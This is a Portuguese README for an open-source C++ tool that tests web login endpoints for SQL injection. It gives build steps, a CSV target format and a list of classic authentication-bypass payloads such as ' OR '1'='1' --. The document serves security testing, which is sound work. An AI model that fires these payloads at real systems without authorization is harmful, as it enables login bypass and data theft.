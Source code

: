 # SQL Injection Tester

## Descrição

Este é um script em C++ desenvolvido para testar vulnerabilidades de SQL Injection em URLs fornecidas. Ele suporta tanto requisições GET quanto POST e pode processar corpos de requisição em formato JSON ou URL-encoded. O script também permite a adição de payloads personalizados através de um arquivo opcional.

## Funcionalidades

- Testa URLs para vulnerabilidades de SQL Injection.
- Suporta métodos HTTP GET e POST.
- Processa corpos de requisição em formato JSON e URL-encoded.
- Adiciona payloads personalizados a partir de um arquivo.
- Gera logs detalhados dos testes realizados.

## Pré-requisitos

- g++
- libcurl

## Compilação

Para compilar o script manualmente, utilize o seguinte comando:

```sh
g++ -o sql-injection-tester main.cpp -lcurl
```

## Instalação
```sh
git clone https://github.com/enigma-w-e-b/sql-injection-tester.git
cd sql-injection-tester
mkdir build
cd build
cmake ..
make
sudo make install
```

## Execução

```
sql-injection-tester
```


## Uso

### Execução com um arquivo CSV e payloads personalizados

Para executar o script usando um arquivo CSV e um arquivo de payloads personalizados, utilize o seguinte comando:

```sh
sql-injection-tester --csv ./urls.csv --payloads ./payloads.txt
```

### Formato do Arquivo CSV
O arquivo CSV deve ter o seguinte formato:

Para corpos de requisição em formato JSON:

``` 
http://localhost:3000/login|POST|{"username":"[test]", "password":"[test]"}
```
### Para corpos de requisição em formato URL-encoded:

```
http://localhost:3000/login|POST|username=[test]&password=[test]
```
## Formato do Arquivo de Payloads
### O arquivo de payloads deve conter um payload por linha, como no exemplo abaixo:

```
' OR '1'='1
' OR '1'='1' --
' OR '1'='1' ({
' OR 1=1
' OR 1=1 --
' OR 1=1 ({
' OR 1=1 /*
' OR 1=1 #
' OR ''=''
' = '
' OR 'a'='a
' OR ''=' --
' OR ''=' ({
' OR ''=' /*
' OR ''=' #
' OR ''='
```
## Saída
Os resultados dos testes serão exibidos no terminal com coloração apropriada para indicar sucesso ou falha. Além disso, os resultados serão salvos em um arquivo CSV chamado results.csv.

Exemplo de Saída:

```
PASS - no vulnerability detected for: http://localhost:3000/login with body: username=test&password=test
DANGER - possible sql injection found: http://localhost:3000/login with body: username=' OR '1'='1' --&password=' OR '1'='1' --
```

## Licença

Este projeto é distribuído sob a licença MIT. Consulte `LICENSE` para obter mais informações.

# Aviso

### Este script foi desenvolvido para fins educacionais e não deve ser usado para realizar ataques maliciosos.

## Autor

#### Este projeto foi desenvolvido por Enigma Web, um integrante da corporação Cipher Systems.

